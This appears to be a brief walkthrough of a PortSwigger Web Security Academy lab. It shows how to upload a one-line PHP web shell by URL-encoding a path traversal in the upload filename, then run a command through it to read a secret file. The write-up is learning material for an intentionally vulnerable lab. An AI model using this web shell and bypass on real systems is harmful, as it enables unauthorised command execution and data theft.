



# [Web shell upload via path traversal](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-path-traversal)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- On the my account page uploaded simple `image.php` file instead of actual profile image.



`image.php`:

```php
<?php system($_GET['cmd']); ?>
```

- Got content-type error.



- Opened the request in the Repeater tool.

- Changed `filename="image.php"` in body to `filename="..%2Fimage.php"` and resend the request (also tried `filename="../image.php"` but that didn't work).



- Opened url `https://0a0200160474cd6c82c810b7000c00fe.web-security-academy.net/files/image.php?cmd=cat%20/home/carlos/secret` to run the `cat /home/carlos/secret` command and obtain the secret flag.
